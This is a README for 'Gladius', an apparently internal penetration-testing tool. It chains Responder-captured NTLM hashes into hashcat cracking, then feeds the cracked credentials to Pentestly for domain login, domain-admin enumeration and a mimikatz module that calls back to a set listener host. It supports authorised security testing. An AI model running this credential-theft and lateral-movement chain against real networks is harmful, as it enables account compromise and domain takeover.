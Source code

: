 ## Responder to Credentials

### Install
```
pip install watchdog
git clone https://git.praetorianlabs.com/thebarbershopper/gladius
```

### Configuration
First things first, have to set our configuration:
```
[Project]
project_path = testing2

[Responder]
hashcat = /root/tools/hashcat/hashcat-cli64.bin
wordlist = /root/tools/hashcat/rockyou.txt
ruleset = /root/tools/hob064.rule
watch_path = /opt/responder/logs

[Pentestly]
nmap = /tmp/gladius.xml

[Recon-ng]
path = /opt/recon-ng/recon-ng

[Mimikatz]
lhost = 10.10.11.156
```

### Start
After setting up configuration, simple start.
```
python2 start.py
```

```
[root@Praetorian-IPTD-4 auto-pentest]# python2 start.py --help
usage: start.py [-h] [-v]

optional arguments:
  -h, --help     show this help message and exit
  -v, --verbose  Increased output verbosity
```

### Start Responder and watch cracked credentials fly by..

### Output

![exmaple.png](example.png)

### Example module

```
class CredsHandler(GladiusHandler):

    patterns = ['*']

    def process(self, event):
        with open(event.src_path, 'r') as f:
            data = f.read().split('\n')

        # Perform work on data
```


Add yourself to the handlers list
```
handlers = [(ResponderHandler, config.get('Responder', 'watch_path')),
            (CredsHandler, ResponderHandler().outpath),
            (PentestlyHandler, CredsHandler().outpath)]
```

### Workings

#### Responder

Watches responder log for `*NTLM*txt` files. For each file found, parses output, creates a temp file containing the new hashes, and passes this to hashcat with the correct hash type

#### Credentials

Watches for output from `hashcat` and exports files with the following format:

```
Domain Username Password
```

#### Pentestly

Watches for sanitized hashcat output and passes credentials to `pentestly` via the following resource script.

```
workspaces add gladius
load nmap
set filename /tmp/gladius.xml
run

load login
set domain DOMAIN
set username USERNAME
set password PASSWORD
run

load get_domain_admin_names
run

load mimikatz
set lhost LHOST
run

load reporting/csv
set filename OUTFILE
set table pentestly_creds
run
```

#### Admin

Watches for output from Pentestly and parses the found credentials for `Local Admin` and new credentials from `Mimikatz`

#### Run Tests

```
python -m unittest discover test
```

```
pip install coverage
coverage run -m unittest discover test
```
